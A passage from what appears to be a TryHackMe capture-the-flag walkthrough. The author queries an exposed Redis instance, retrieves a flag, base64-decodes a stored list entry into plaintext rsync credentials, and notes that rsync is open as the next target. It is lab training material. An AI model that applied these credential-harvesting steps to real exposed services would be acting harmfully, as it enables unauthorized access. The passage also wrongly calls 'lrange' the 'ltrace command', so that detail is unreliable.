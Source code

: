 My eyes are drawn to number three, let's see what data type it is:

```text
internal.thm:6379> type "internal flag"
string
```

We can use the **get** command to retrieve the string held in this key:

```text
internal.thm:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
```

Ok, moving on let's look at the other keys:

```text
internal.thm:6379> type authlist
list
```

This key is a list instead of a string, we can view the contents of it using the ltrace command:

```text
internal.thm:6379> lrange authlist 1 9999999
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

The same string repeated three times. The == on the end tells us it is probably base64 encoded, let's try and decode it:

```text
┌──(root💀kali)-[~/thm/internal]
└─# echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

## Rsync

I checked the other keys but there was nothing else of interest. Looks like our next move is to rsync, and looking back at the nmap scan we see it's open and ready for us:

```text
873/tcp   open     rsync       (protocol version 31)
```

What is rsync? A search finds [this](https://www.cyberciti.biz/faq/show-progress-during-file-transfer/) helpful guide:

```text
rsync is free and open source tool. It is useful to copy local or remote file. It reduces the amount of data sent over the network by sending only the differences between the source files and the existing files in the destination.
```
